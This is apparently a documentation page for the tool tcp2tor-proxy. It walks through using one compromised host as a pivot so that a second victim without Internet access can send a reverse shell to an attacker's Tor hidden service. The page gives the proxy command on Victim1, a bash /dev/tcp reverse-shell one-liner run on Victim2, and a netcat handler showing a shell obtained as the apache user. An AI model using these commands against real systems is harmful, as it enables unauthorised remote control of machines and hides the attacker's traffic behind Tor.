# Remote port forwarding with tcp2tor-proxy

We suppose that Victim2 does not have Internet access, so we cannot access Tor directly from it. However, we can use **tcp2tor-proxy** in order to use Victim1 as a Tor proxy for Victim2.

As shown in the following illustration, the attacker will publish a Hidden Service with a handler. With tcp2tor-proxy, Victim1 will serve a TCP port that routes the traffic directly to the Hidden Service. Then, Victim2 will send a simple reverse shell to Victim1 in order to reach the attacker handler.

![Remote port forwarding](../.gitbook/assets/05_tcp2tor-proxy.png)

## 1. Set up the remote port forwarding

{% hint style="info" %}
Previously, the attacker needs to have a **Hidden Service up and running** with an associated onion address. Also, the attacker should **run a netcat handler** for the incoming connections.
{% endhint %}

As Victim1 is the host we will used as a pivot, we will run **tcp2tor-proxy** on it:

```text
[victim1]$ ./tcp2tor-proxy -listen 0.0.0.0:60101 \
    -onion-forward m5et..jyd.onion:4444
...
Proxying 0.0.0.0:60101 -> m5et..jyd.onion:4444
```

Now, the pivot is listening TCP traffic on port `60101` so that it will be routed to the Hidden Service the attacker owns.

## 2. Reverse shell to tcp2tor-proxy

As the traffic that reach tcp2tor-proxy will be routed to the Hidden Service, Victim2 only needs to send a **simple reverse shell to the pivot**:

```text
[victim2]$ bash -i >& /dev/tcp/victim1/60101 0>&1
```

After executing the above command, the attacker will receive the shell:

```text
[attacker]$ nc -lnvp 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

